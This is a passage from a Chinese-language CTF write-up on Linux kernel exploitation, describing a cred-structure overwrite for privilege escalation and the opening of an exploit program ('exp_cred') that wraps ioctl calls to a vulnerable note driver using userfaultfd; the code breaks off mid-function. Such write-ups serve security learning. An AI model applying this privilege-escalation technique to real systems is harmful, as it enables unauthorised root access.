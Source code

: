 （5）修改cred提权。`real_cred`指向的就是`cred`结构体的地址。将`note_2`的`conPtr`覆盖为`cred_addr - page_offset_base + 4`的位置。要充填前`32`位（第一个成员不用管）。
![image_1e74ol42u1ulssg7t3bpqo1ni4m.png-41.2kB][13]

`gdb`查找字符串来在调试时，确定位置

    find start_address, end_address, "xxxxx"

### exp_cred
```C
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <linux/userfaultfd.h>
#include <pthread.h>
#include <poll.h>
#include <unistd.h>
#include <assert.h>
#include <sys/syscall.h>
#include <sys/mman.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <fcntl.h>
#include <sys/prctl.h>

struct noteReq{
    unsigned long index;
    unsigned long length;
    void* userptr;
};

int fd;

void add(void *ptr, int length){
    struct noteReq req;
    req.length = length;
    req.userptr = ptr;
    if(ioctl(fd, 0xFFFFFF00, &req) < 0){
        perror("add");
    }
}

void delete(){
    struct noteReq req;
    if(ioctl(fd, 0xFFFFFF03, &req) < 0){
        perror("delete");
    }
}

void edit(int index, void *ptr, int length){
    struct noteReq req;
    req.index = index;
    req.length = length;
    req.userptr = ptr;
    if(ioctl(fd, 0xFFFFFF01, &req) < 0){
        perror("edit");
    }
}

void show(int index, void *ptr){
    struct noteReq req;
    req.index = index;
    req.userptr = ptr;
```

  [1]: http://static.zybuluo.com/leafish/e86u5q8x5yciwck2de1bpi4q/image_1e6vc3qeosuh1tkeaqecqosh79.png
  [2]: http://man7.org/linux/man-pages/man2/userfaultfd.2.html
  [3]: https://www.kernel.org/doc/Documentation/x86/x86_64/mm.txt
  [4]: http://static.zybuluo.com/leafish/y4b9btjir01tm161n29xeaw7/image_1e74h0mpf1bg212tn127elp21oi79.png
  [5]: http://static.zybuluo.com/leafish/cpemi1wafhu00b1sgrgtickb/image_1e74kpa7214ihl034sbvmmju2m.png
  [6]: http://static.zybuluo.com/leafish/4jxy2lfb4vcwekjo4j6ay9c3/image_1e74l6njtui02tq1se5hu115n13.png
  [7]: http://static.zybuluo.com/leafish/mc8fxo1pdyzrc1tgm8fk8rx3/image_1e74lag3a1elaaqbjsl1uve1c4l1g.png
  [8]: http://static.zybuluo.com/leafish/v5a7njxc1x4y7vf01upmzxaf/image_1e723q42t1v6m11101iqe6ib1h99.png
  [9]: http://static.zybuluo.com/leafish/jpg13had1tbi8xazvmx38lrc/image_1e74m8uic1hogjnn1bn584d1elj1t.png
  [10]: http://static.zybuluo.com/leafish/n9e5u2jhki8fuz8jf7vkkfac/image_1e74mcknt1g6b1ovg1hh91o6013rh2a.png
  [11]: http://static.zybuluo.com/leafish/70qsg2p46qj6csuvlor1v32w/image_1e723s8sq1uquem47b01rraage13.png
  [12]: http://static.zybuluo.com/leafish/jkq0cfvbkyszp9aj615tv6gy/image_1e74o110e1ord1ri11and10b214p19.png
  [13]: http://static.zybuluo.com/leafish/q6dpxzvrp8dff8msv9alxarl/image_1e74ol42u1ulssg7t3bpqo1ni4m.png
  [14]: http://static.zybuluo.com/leafish/vm6mq7m7b1qbdq5r84aj1p41/image_1e734paevjjo17fleaa1a15th9.png
  [15]: https://hub.docker.com/r/klee/uclibc